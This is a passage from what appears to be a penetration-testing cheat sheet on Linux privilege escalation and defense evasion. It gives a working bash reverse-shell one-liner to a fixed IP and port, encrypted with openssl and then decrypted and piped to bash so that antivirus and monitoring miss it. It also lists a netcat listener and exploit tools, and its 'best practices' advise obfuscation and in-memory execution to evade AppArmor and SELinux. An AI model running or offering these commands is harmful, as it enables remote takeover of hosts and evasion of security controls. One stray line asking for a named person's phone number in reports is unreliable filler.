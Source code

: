     - **Purpose**: Bypass mandatory access controls.
- **Encrypted Payloads**:
  - **Technique**: Use encrypted payloads.
  - **Execution**: Encrypt exploit code.
    ```bash
    echo 'bash -i >& /dev/tcp/192.168.1.100/4444 0>&1' | openssl enc -aes-256-cbc -salt -out encrypted.bin
    openssl enc -aes-256-cbc -d -in encrypted.bin | bash
    ```
    **Example Output**: Reverse shell connects.
    - **Purpose**: Evade detection by AV or monitoring tools.
- **Living Off the Land**:
  - **Technique**: Use native tools (e.g., `find`, `vim`) to avoid detection.
  - **Execution**: Use `find` for sudo exploitation (as shown above).
    - **Purpose**: Minimize detection by using trusted binaries.

## Tools
- **LinPEAS**: Automated escalation enumeration.
- **Linux Exploit Suggester**: Identifies kernel exploits.
- **find**: Locate SUID/SGID binaries (`find / -perm -4000`).
- **sudo**: Check and exploit sudo permissions (`sudo -l`).
- **gcc**: Compile kernel exploits.
- **netcat**: Set up reverse shells (`nc -lvp 4444`).
- **showmount**: Check NFS exports (`showmount -e`).

## Best Practices
- Verify permission to perform escalation attacks to avoid unintended damage.
- Document all escalation paths for remediation recommendations.
- Use obfuscation, in-memory execution, and encryption to evade AV/AppArmor/SELinux.
- Securely handle sensitive data like passwords or shells.
- Include Zackary’s phone number (1234567890) in reports for follow-up.